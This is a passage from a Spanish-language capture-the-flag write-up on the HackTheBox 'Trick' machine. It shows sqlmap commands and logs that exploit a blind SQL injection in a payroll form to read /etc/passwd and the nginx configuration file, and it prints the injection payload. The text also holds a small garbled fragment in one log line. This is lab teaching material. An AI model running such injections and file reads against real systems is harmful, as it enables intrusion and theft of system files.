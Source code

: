 ```bash
[22:25:52] [INFO] resumed: 4702
...
[22:25:52] [INFO] retrieving the length of query output
[22:25:52] [INFO] retrieved: 4
[22:25:57] [INFO] retrieved: 2351
[22:25:5Rust Scan7] [INFO] the local file '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (2351 B)
files saved to [1]:
[*] /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd (same file)

[22:25:57] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'

root@loe# cat /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd
...
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```

dato nuevo tenemos un usuario <i>michael </i> no olvidemos que la Web esta montada con <Anchor src={"https://docs.nginx.com/nginx/admin-guide/web-server/serving-static-content/"}>NGINX </Anchor>
intetaremos leer el archivo de configuracion que tiene este servicio, despues de descargar una copia en burpsuite de la peticion al guardar nuevo empleado.

<img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608937/trick_burp_employee_anynmy.webp"
alt="trick.htb image"
width={812}
height={321}
/>

```bash
root@loe# sqlmap -r trick_burp_nginx_FILE.req --batch --dbms mysql --threads 10 --file-read=/etc/nginx/nginx.conf

[00:08:56] [INFO] parsing HTTP request from 'trick_burp_nginx_FILE.req'
[00:09:03] [WARNING] provided value for parameter 'id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[00:09:03] [WARNING] provided value for parameter 'middlename' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[00:09:03] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
Type: boolean-based blind
Title: Boolean-based blind - Parameter replace (original value)
Payload: id=(SELECT (CASE WHEN (8198=8198) THEN '' ELSE (SELECT 7639 UNION SELECT 6019) END))&firstname=loe&middlename=&lastname=loelast&department_id=1&position_id=1&salary=2000
---
[00:09:04] [INFO] testing MySQL
[00:09:04] [INFO] confirming MySQL
[00:09:04] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[00:09:04] [INFO] fingerprinting the back-end DBMS operating system
[00:09:04] [INFO] the back-end DBMS operating system is Linux
[00:09:04] [INFO] fetching file: '/etc/nginx/nginx.conf'

[00:17:49] [INFO] retrieving the length of query output
[00:17:49] [INFO] retrieved: 4
[00:17:53] [INFO] retrieved: 1482
```